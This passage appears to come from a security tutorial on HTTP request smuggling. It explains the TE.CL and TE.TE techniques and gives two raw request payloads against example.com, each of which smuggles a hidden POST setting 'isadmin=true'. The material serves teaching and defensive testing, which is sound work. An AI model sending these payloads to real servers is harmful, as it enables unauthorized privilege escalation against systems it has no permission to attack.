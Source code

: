 ### TE.CL (Transfer-Encoding and Content-Length)
This technique is similar to CL.TE but reverses the order of the headers. The front-end server may process the request based on `Transfer-Encoding`, while the back-end server relies on `Content-Length`.

#### TE.CL Exploitation Steps
- **Send a Request with Both Headers**: Craft a request that includes both `Transfer-Encoding` and `Content-Length` headers, where the `Transfer-Encoding` is set to `chunked`.

```bash
POST / HTTP/1.1 
Host: example.com 
Content-Length: 4 
Transfer-Encoding: chunked  

78 
POST /update HTTP/1.1 
Host: example.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15  

isadmin=true 
0
```

In this case, the front-end server processes the request based on `Transfer-Encoding`, so it will read the 78 (120 bytes in decimal) bytes of the body, untill the `0` chunk, while the back-end server processes it based on `Content-Length`, interpreting the request as having a body of 4 bytes (`78\r\n`), not including the second request. This allows the attacker to inject a second request that is processed by the back-end server as if it was a legitimate request.

### TE.TE (Transfer-Encoding and Transfer-Encoding)

This technique exploits the fact that both the front-end and back-end servers depends on the `Transfer-Encoding` header, but they may interpret it differently, often involves a single malformed `Transfer-Encodig` header. The front-end server may ignore or remove malformed parts of the header and process the request normally and the back-end server might interpret the request differently, leading to request smuggling.

#### TE.TE Exploitation Steps
- **Send a Request with Malformed Transfer-Encoding**: Craft a request that includes a malformed `Transfer-Encoding` header, which the front-end server processes normally, while the back-end server interprets it differently.

```bash
POST / HTTP/1.1 
Host: example.com 
Content-length: 4 
Transfer-Encoding: chunked 
Transfer-Encoding: chunked1  

4e 
POST /update HTTP/1.1 
Host: example.com 
Content-length: 15  

isadmin=true 
0
```
